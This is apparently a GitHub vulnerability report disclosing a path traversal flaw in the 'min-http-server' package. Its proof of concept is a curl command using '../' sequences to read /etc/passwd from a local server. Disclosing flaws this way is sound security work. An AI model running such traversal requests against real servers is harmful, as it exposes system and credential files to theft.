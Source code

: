# :bug: Description

The `min-http-server` package is vulnerable against `path traversal`, which leads to `information disclosure` and `sensitive file leakage`.
The package is vulnerable against this attack through the `double dots` technique.

# :fire: PoC

1. Download `min-http-server`
2. `./min-http-server`
3. Run 

```bash
curl --path-as-is 'http://localhost:1579/../../../../../../../etc/passwd'
```
4. The content of `/etc/passwd` is shown :smile:
